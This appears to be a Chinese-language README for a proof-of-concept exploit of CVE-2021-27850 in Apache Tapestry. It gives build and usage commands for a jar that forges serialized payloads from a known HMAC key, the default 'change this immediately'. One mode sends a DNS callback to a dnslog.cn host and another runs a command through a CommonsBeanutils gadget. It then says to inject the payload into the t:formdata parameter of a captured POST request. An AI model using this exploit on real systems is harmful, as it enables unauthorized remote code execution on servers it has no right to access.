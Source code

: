 
## 命令使用
```bash
git clone https://github.com/Ovi3/CVE_2021_27850_POC.git
cd CVE_2021_27850_POC/
gradlew runnbaleJar

java -jar ./build/libs/CVE_2021_27850_POC-1.0-SNAPSHOT.jar
[Usage]:
        java TapestryExploit [Tapestry Key] DNS [URL]
        java TapestryExploit [Tapestry Key] CB2 [Command]

# 假设 hmac key为 change this immediately 
java -jar ./build/libs/CVE_2021_27850_POC-1.0-SNAPSHOT.jar "change this immediately" DNS "http://xxx.dnslog.cn"
java -jar ./build/libs/CVE_2021_27850_POC-1.0-SNAPSHOT.jar "change this immediately" CB2 "calc"
```

## 漏洞复现
访问Tapestry应用，触发一个POST请求（如登录请求），抓包，修改`t:formdata`参数值为上面生成的payload